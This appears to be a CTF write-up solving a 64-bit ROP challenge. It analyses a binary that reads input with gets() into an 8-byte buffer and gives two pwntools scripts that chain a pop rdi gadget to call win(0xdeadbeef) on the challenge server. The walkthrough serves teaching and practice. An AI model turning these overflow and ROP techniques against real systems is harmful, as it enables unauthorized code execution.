 From the challenge name, we can assume that it has something to do with ROP.

The binary given to us is 64-bit LSB, not stripped, meaning we can read function names.
```
out: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=e53c4d0a294188009beb3a2dd0296932846eb6a9, for GNU/Linux 3.2.0, not stripped
```

## Protections

First, we start with a `checksec`:
```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable  FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   42 Symbols        No    0               3            out
```


| Protection | Enabled | Usage |
| -------- | -------- | -------- |
| Canary     | ✘    | Prevent stack overflows     |
| NX     |✔    | Disables code execution on the stack     |
| PIE     | ✘    | Randomizes the binary's base address     |
| RelRO     | Partial    | Makes some sections of the binary read-only     |



Running the program, it simply takes in a user input. 

Decompiling the binary in ghidra, we have 3 functions of interest.

```c
undefined8 main(void)

{
  char local_10 [8];
  
  gets(local_10);
  return 0;
}
```
`main` reads in user input to an 8 byte buffer with `gets`.


```c
void gadget1(void)

{
  return;
}

```

`gadget1` just returns. We will be using this to construct our payload later.


```c
void win(long param_1)

{
  char flag [104];
  FILE *flag_fp;
  
  flag_fp = fopen("flag.txt","r");
  fgets(flag,0x23,flag_fp);
  printf("%i\n",param_1);
  if (param_1 == 0xdeadbeef) {
    puts(flag);
    fflush(stdout);
  }
  else {
    puts("Bad!");
  }
  return;
}
```
`win` prints out the flag if we pass in `0xdeadbeef` as its parameter.

## Constructing the payload
The approach here is to overwrite the input buffer, and use a gadget so that the program returns to the `win` function with `0xdeadbeef` as its parameter. Since this is a 64-bit binary, function parameters are passed to the stack through registers (`rdi`, `rsi`, `rdx`, etc.). So we will need to find a `pop rdi; ret`.

To find the offset, we use `gdb` and `cyclic`. We grab 8 bytes from the `rsp` to search for the pattern, which gives us 16.

We locate the address of `pop rdi` in `gadget1`.
```
0x000000000040117a <+4>:     pop    rdi
```

Then we locate the starting address of the `win` function.
```
0x000000000040117f <+0>:     push   rbp
```

The final payload will be offset + `pop rdi` + `0xdeadbeef` + `win`.

## Exploit
```py
from pwn import *

elf = ELF("./out")
context.binary = elf
context.log_level = "debug"

# io = elf.process()
io = remote("tjc.tf", 31457)

offset = 16
pop_rdi = 0x000000000040117a
win_addr = 0x000000000040117f

payload = flat({
	offset: [
		pop_rdi,
		0xdeadbeef,
		win_addr
		# elf.symbols.win
	]
	})

io.sendline(payload)
io.interactive()
```

You can also solve this more easily using the ROP tool.

```py
from pwn import *

elf = ELF("./out")
context.binary = elf
context.log_level = 'debug'

#io = elf.process()
io = remote("tjc.tf", 31457)
offset = 16

rop = ROP(elf)
rop.win(0xdeadbeef)

payload = flat({
    offset: rop.chain()
})

io.sendline(payload)
io.interactive()
```